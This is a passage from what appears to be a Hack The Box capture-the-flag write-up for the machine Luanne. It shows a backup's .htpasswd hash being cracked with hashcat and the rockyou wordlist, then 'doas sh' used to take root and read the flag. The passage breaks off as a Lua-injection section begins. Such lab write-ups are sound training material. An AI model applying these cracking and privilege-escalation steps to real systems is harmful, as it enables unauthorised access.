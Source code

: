 
### Backup Analysis

The file decompresses to contain familiar files at this point:

    
    
    luanne$ tar zxvf 0xdf.tar.gz
    x devel-2020-09-16/
    x devel-2020-09-16/www/
    x devel-2020-09-16/webapi/
    x devel-2020-09-16/webapi/weather.lua
    x devel-2020-09-16/www/index.html
    x devel-2020-09-16/www/.htpasswd
    

`weather.lua` is exactly the same as the public version. `index.html` is also
similar. The `.htpasswd` file is different:

    
    
    luanne$ cat devel-2020-09-16/www/.htpasswd
    webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.
    

It breaks the same way (`hashcat -m 500 htpasswd2 --user
/usr/share/wordlists/rockyou.txt`), this time to the password `littlebear`.

### doas sh

Now with a potential password, I can try to `doas` as root, and it works:

    
    
    luanne$ doas sh
    Password:
    # id
    uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
    

And I can grab the root flag:

    
    
    # cat root.txt
    7a9b5c20************************
    

## Beyond Root - Lua Injection

### Code Overview

I pretty much a noob at Lua, so of course I knew I wanted to understand how
this script worked, and how I could inject into it, comparing the [vulnerable
version](/files/htb-luanne-weather.lua) to the [patched](/files/htb-luanne-
weather-dev.lua).
